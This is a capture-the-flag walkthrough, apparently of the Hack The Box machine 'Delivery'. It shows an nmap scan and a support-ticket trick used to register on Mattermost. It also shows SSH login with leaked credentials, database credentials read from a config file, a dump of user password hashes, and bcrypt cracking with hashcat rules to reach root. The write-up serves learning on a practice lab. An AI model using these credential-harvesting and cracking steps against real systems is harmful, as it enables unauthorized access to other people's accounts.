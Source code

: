 # User

scan

nmap -sS -T4 -A 10.10.10.222

22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

80/tcp open  http    nginx 1.14.2


#open the web page

#add ip to the hosts file

nano /etc/hosts


#first I tried to signup and add email

#then I realized that the machine wasn't on the internet

#open new ticket

#if you have any error then change the email address beacuse someone else used it

#save the ticket id and the email we will use those

ticket id: 4701529

4701529@delivery.htb


#now we go to Check Ticket Status

#type the email and tickt id

#now,we go to Mattermost server and create an account with the ticket number email then refresh the ticket

#if the server didn't open add the server ip o the hosts

#You have to use ticket number email it gives you when you create the ticket

8113433@delivery.htb.

now what happened that you taked the email that was supposed to be the support email and creat the Mattermost server with it

# the verfing email goes to the ticket view page

#It’s kind of a hack, instead of going to an email it went to the ticket page instead

That should have went to an email address, not the details of the ticket

So you just tricked the application into creating an account when before it wouldn’t let you

#copy/paste that huge link


#the root saied

@developers Please update theme to the OSTicket before we go live.  Credentials to the server are maildeliverer:Youve_G0t_Mail!

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

#now we have the credintials to access the server

username:maildeliverer

password:Youve_G0t_Mail!

#using ssh to enter

Bingo now you own the user

## Screenshots

![image](https://user-images.githubusercontent.com/24206178/154683068-e2839697-8555-4b2a-a981-bba6d3b00cb4.png)

![image](https://user-images.githubusercontent.com/24206178/154683088-728f53c3-00e9-4481-90e4-cff84eadd594.png)

![image](https://user-images.githubusercontent.com/24206178/154683116-3bf0159f-2054-477b-a41f-8c1fb7cbee92.png)

![image](https://user-images.githubusercontent.com/24206178/154683152-fe35883b-f604-4f95-b4fd-bc991fe42882.png)

![image](https://user-images.githubusercontent.com/24206178/154683083-cc581f88-1a42-4c8e-b06a-b9610df0842d.png)

![image](https://user-images.githubusercontent.com/24206178/154683238-36592571-85da-451f-9f0f-4a6217dbaeee.png)

![image](https://user-images.githubusercontent.com/24206178/154683243-1334f5d2-6933-42a5-a199-0b8d9774cada.png)

![image](https://user-images.githubusercontent.com/24206178/154683255-dca2c774-cddd-489c-a6be-de2c13e05021.png)

![image](https://user-images.githubusercontent.com/24206178/154683248-09cc9c19-958f-41a2-a8ad-7f04d2a7ed49.png)


# Root

#now we are using maildeliverer

#we will go to the database

/opt/mattermost

find . -type f -name ‘*.config’

json.config

#in sqlsettings

mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)

bingo!!

#credentials to a database

#sql username and password

username:mmuser

pass:Crack_The_MM_Admin_PW

#now we enter the database

mysql --host=127.0.0.1 --user=mmuser --password=Crack_The_MM_Admin_PW


show databases;
Database           |
+--------------------+
| information_schema |
| mattermost         |

use mattermost;

show tables;

Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+

select * from Users;

| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"}   |         0 |           |


#we found the hash for the password for the root

now lets get back to the hint that was in 

Also please create a program to help us stop re-using the same passwords everywhere.... Especially those that are a variant of "PleaseSubscribe!"

so now we know the password is a pattern from PleaseSubscribe!

#we need to know the type of the hash

#search for it at https://hashcat.net/wiki/doku.php?id=example_hashes

#Do Ctrl + f on the page and type $2a$ then which one matches

it is bcrypt $2*$, Blowfish (Unix)


echo PleaseSubscribe! > pass.txt is your wordlist
echo $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO > h.hash is your hash

ls -l /usr/share/hashcat/rules/

#And pick one, one of them will work

root@kali:/usr/share/hashcat/rules# hashcat -m 3200 hash.hash pass.txt -r best64.rule

maildeliverer@Delivery:~$ su root

Password: 
root@Delivery:/home/maildeliverer# whoami

root

cat /root/root.txt

# Screenshots

![image](https://user-images.githubusercontent.com/24206178/154683335-7f37ccdc-2812-4fbd-a820-39e0bdf5aa3a.png)

![image](https://user-images.githubusercontent.com/24206178/154683355-bd69b018-50c7-46c3-8a77-cb924a549b42.png)

![image](https://user-images.githubusercontent.com/24206178/154683372-149490c0-7e9b-4353-b597-4a515a833451.png)

